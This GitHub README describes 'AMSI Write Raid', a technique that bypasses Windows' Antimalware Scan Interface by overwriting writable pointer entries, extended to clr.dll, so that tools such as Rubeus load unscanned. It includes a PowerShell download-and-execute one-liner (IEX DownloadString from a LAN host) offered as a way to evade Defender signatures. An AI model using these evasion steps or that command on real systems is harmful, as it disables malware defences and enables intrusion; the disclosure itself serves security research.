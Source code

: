 __AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.

![Vulnerable Entries](vulnerable_entries.png)

![Writable Entries](writable_entries_part_1.png)

**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.

![CLR Error](clr_error.png)

You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.

![CLR Entries](clr_entries.png)

![CLR Writable Entry](clr_writable_entry.png)

The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:

![CLR Bypass POC](clr_poc.png)

I will not publish the POC for clr.dll, I will keep it as an exercise :)